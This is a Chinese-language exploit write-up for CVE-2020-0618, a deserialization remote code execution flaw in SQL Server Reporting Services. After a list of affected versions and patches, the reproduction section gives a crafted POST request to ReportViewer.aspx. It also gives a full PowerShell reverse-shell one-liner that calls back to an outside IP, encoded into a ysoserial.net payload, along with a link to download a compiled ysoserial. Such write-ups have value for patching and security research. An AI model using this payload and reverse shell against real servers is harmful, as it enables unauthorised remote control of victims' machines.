 # （CVE-2020-0618）SQL Server 远程代码执行漏洞

> 原文：[http://book.iwonder.run/0day/SQL Server/CVE-2020-0618.html](http://book.iwonder.run/0day/SQL Server/CVE-2020-0618.html)

## 一、漏洞简介

该漏洞需要经过身份验证后，攻击者向 SQL Server 的报告服务(Reporting Services) 发送特制请求进行触发。攻击成功可获得 SQL Server 服务的对应控制权限。

## 二、漏洞影响

| 产品 | 版本 | 修复补丁编号 |
| --- | --- | --- |
| SQL Server 2016 Service Pack 2(GDR) | 13.0.5026.0 - 13.0.5101.9 | KB4505220 |
| SQL Server 2016 Service Pack 2 CU11 | 13.0.5149.0 - 13.0.5598.27 | KB4527378 |
| SQL Server 2014 Service Pack 3 (GDR) | 12.0.6024.0 - 12.0.6108.1 | KB4505218 |
| Server 2014 Service Pack 2 CU4 | 12.0.6205.1 - 12.0.6329.1 | KB4500181 |
| SQL Server 2012 Service Pack 4 (QFE) | 11.0.7001.0 - 11.0.7462.6 | KB4057116 |

## 三、复现过程

首先登陆 ReportServer/pages/ReportViewer.aspx

```
POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded
Content-Length: X

NavigationCorrector$PageState=NeedsCorrection&NavigationCorrector$ViewState=[PayloadHere]&__VIEWSTATE= 
```

可以在 PowerShell 中使用以下命令来使用[ysoserial.net](https://github.com/pwntester/ysoserial.net)工具生成有效负载：

```
$command = '$client = New-Object System.Net.Sockets.TCPClient("192.168.6.135",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

$encodedCommand = [Convert]::ToBase64String($bytes)

.\ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c "powershell.exe -encodedCommand $encodedCommand" -o base64 | clip 
```

> 编译好的 ysoserial.net 下载地址：[https://github.com/ianxtianxt/ysoserial.net/](https://github.com/ianxtianxt/ysoserial.net/)
> 
> ps：上述命令在 powershell 里面执行好后，会自动黏贴到剪贴板上。

![image](img/1a9ed3f583f162213fc84f738cbe7270.png)

## 参考链接

> [https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/](https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/)

